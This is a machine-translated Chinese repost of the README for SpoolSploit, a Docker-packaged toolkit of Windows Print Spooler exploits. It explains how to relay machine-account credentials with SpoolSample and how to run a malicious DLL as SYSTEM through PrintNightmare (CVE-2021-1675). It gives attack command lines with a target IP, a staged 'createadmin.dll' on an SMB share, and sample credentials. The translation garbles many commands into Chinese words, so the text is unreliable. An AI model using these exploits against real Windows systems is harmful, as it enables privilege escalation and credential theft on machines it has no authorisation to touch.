



# SpoolSploit:Windows 打印假脱机程序漏洞的集合

> -= the last fantasy =-荣誉出品本字幕仅供学习交流，严禁用于商业途径

SpoolSploit 是一个 Windows 打印假脱机程序开发的集合，它与其他实用程序一起打包，以供实际开发。一些非常有效的方法是中继机器帐户凭证，以提升权限并在具有完全系统访问权限的端点上执行恶意 dll。

**入门**

截至发布日，SpoolSploit Docker 容器已经在最新版本的`**MacOS**`、`**Ubuntu**` 、**、**和**、T3 上测试成功。**

虽然不是必需的，但是如果您希望在 SpoolSploit 容器中托管恶意 dll 或进行凭据中继攻击，您应该确保运行 Docker 的主机上没有使用端口 445。在 Windows 主机上运行该容器时，这种情况最为普遍，因为它默认使用端口 445。如果在您的主机上禁用端口 445 不切实际，那也没关系！您可以简单地在一个虚拟机中运行 docker 容器，该虚拟机将网络适配器配置为桥接模式。这将允许提供恶意 dll 和中继凭据。如果您只想为恶意 dll 提供服务，您可以简单地将 dll 托管在主机操作系统上的匿名访问共享或受损的服务器共享上。

**创建并访问 SpoolSploit Docker 容器**

*   克隆此存储库

**git 克隆 https://github.com/BeetleChunks/SpoolSploit**

*   构建 SpoolSploit Docker 容器映像

**cd 排存器排存器
sudo dock build-t 排存器排存器。**

*   创建并启动 SpoolSploit Docker 容器

**sudo 坞站运行-dit-p45:445–名称排存器排存器排存器:最新**

*   附在容器上

**sudo dock exec-it 排流器/bin/bash**

**命令行用法**

**用法:spool _ sploit . py[-h]-a {spoolsample，nightmare} -rH RHOST -rP {139，445 }[-lH LHOST][-lS LSHARE]-d DOMAIN-u USER-p PASSWD
可选参数:
-h，–帮助显示此帮助消息并退出
-a {spoolsample，nightmare}，–要对目标执行的攻击类型{ spool sample，nightmare}
。
-rH RHOST，–RHOST RHOST
远程目标 IP、CIDR 范围或文件名(文件:)
-rP {139，445}，–rport { 139，445}
远程 SMB 服务器端口。
-lH LHOST，–LHOST LHOST
监听主机名或 IP
-lS LSHARE，–LSHARE LSHARE
暂存 SMB 共享(UNC)
-d 域，–DOMAIN
用于身份验证的域
-u 用户，–Username 用户
用于身份验证的用户名
-p PASSWD，–Password PASSWD
用于身份验证的密码
示例–spool 示例:
python3 spool_sploit-rP 445 -rH 10.5.1.10
示例–噩梦:
python 3 spool _ sploit . py-a nightman-lS ' \ 10 . 14 . 1 . 24 \ C $ \ create admin . dll '-d evil . corp-u rjmcdow-p ' p 4 ss word 123！'-rP 445 -rH 10.5.1.10**

**spool sample–捕获并中继 Windows 机器帐户凭证**

SpoolSploit Docker 容器包括[响应者](https://github.com/lgandx/Responder)，用于转发在 SpoolSploit 中执行`spoolsample`攻击所获得的机器帐户散列。由于已经有几篇很好的文章详细介绍了为特权提升而传递特权机器帐户凭证的过程，所以我在这里就不再赘述了。

p**rint nightmare(CVE-2021-1675)–以系统身份在 Windows 目标上执行恶意 DLLs】**

SpoolSploit 容器中包含一个通过 Impacket 实现的 SMB 服务器。在 SpoolSploit 中执行`**printnightmare**`攻击时，该服务器可用于托管恶意 dll。默认的 SMB 服务器设置有效，但是如果您想要定制它们，您可以修改位于**T1 的配置文件。**

您唯一需要做的就是将您的 DLL 复制到 SpoolSploit 容器中 SMB 服务器的共享文件夹中。容器中的共享路径是`**/home/dlogmas/smbserver/share/**`。以下命令演示了如何将 DLL 上载到 SpoolSploit 容器，并使 SMB 服务器可以访问它。

sudo docker cp。/恶意. dll spoolsploit:/home/dlogmas/SMB server/share/
sudo docker exec spoolsploit/bin/sh-c ' sudo chown dlogmas:dlogmas/home/dlogmas/SMB server/share/恶意. dll'

[**Download**](https://github.com/BeetleChunks/SpoolSploit)